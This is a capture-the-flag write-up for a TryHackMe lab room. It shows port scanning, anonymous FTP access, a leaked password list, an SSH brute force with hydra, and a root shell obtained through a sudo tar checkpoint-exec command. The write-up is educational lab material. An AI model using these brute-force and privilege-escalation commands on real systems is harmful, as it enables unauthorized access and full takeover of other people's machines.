# WRITE-UP COWBOYHACKER

![homepage](files/ctf-homepage.png)

[Click here to access the room](https://tryhackme.com/room/cowboyhacker#)
---

## QUESTION 01: Find open ports on the machine

> Well, just do a simple scan. You can use any port scan tool you prefer. I gonna use nmap.

> I like save nmap scan in other file, but if you don't like just run `nmap -A [target]`

**STEP 01:** Run `nmap -A [target] > file.txt`

In my case:
  `nmap -A 10.10.81.241 > scan.txt`

Result:

  ![scan](files/nmap-scan.png)

  * Nice, three ports are open.
    * 21 `ftp`
    * 22 `ssh`
    * 80 `http`

  * The FTP have Anonymous login allowed, interesting!

  * And we have a website running on port 80 with Apache 2.4.18

  <br>

  ![website](files/website.png)

  Always check the source code, it may have sensitive information commented out.

  ![source](files/source-webpage.png)

  But in this case, i found nothing relevant. Only possible usernames to log into ssh.

----

  ## QUESTION 02: Who wrote the task list

  > Well, reading the short excerpt from the website I noticed that there is a character named Ein. It didn't work :(

  But remember, Nmap showed us that there is an FTP server with Anonymous login enabled. So let's see what we found.

  **STEP 01:** log as anonymous on ftp server with this command: `ftp [target]` and type `anonymous` as username.

  In my case:

  ![fpt-login](files/ftp-login.png)

  **STEP 02:** We found two files just running `ls`. Now type `get [file]` to download to your local machine.

  Content of `task.txt`:

  ~~~
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.

  -lin
  ~~~

> Oh, maybe lin wrote the task list

Content of `locks.txt`:

~~~
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
~~~

> Strange. Looks like a file with possible passwords.

v

-----

## QUESTION 03: What service can you bruteforce with the text file found?

## QUESTION 04: What is the users password?

Now we have an username, password list and a ssh service. Next step is bruteforce ssh with these credentials. I will use `hydra` but you can use another tool you prefer.

**STEP 01:** Bruteforce ssh with hydra using this command: `hydra -l lin -P locks.txt ssh://target`

 In my case:

 `hydra -l lin -P locks.txt ssh://10.10.81.241`

![hydraresult](files/ssh-bruteforce-hydra.png)

> We found!

**With the information obtained so far, you are already able to answer question 03 and question 04.**

-----

## QUESTION 05: user.txt

Let's login ssh with the credentials.
<br>
![loginssh](files/login-ssh.png)

> Boom! We are on the server

![user](files/usertxt.png)

Running `ls -la` we found the flag user.txt
> Pretty easy flag

**With the information obtained so far, you are already able to answer question 05.**

----

## QUESTION 06: root.txt

Now we have to escalate privilege and get the last flag root.txt.

After a long time looking through the files and searching for possible users, I thought I would use the linpeas script to automate my process (You can download it [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)), it is a very powerful script.

But I had forgotten to see what our current user can do. So i run `sudo -l`

![tar](files/allowed-tar.png)

We can use **tar**

A fast search on Google and i found on [GTFFobins site](https://gtfobins.github.io/gtfobins/tar/) this code:

![privilege-tar](files/tar-for-root.png)

~~~
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Now we are root. Just take the flag in `/root/root.txt`

![root](files/rootxt.png)
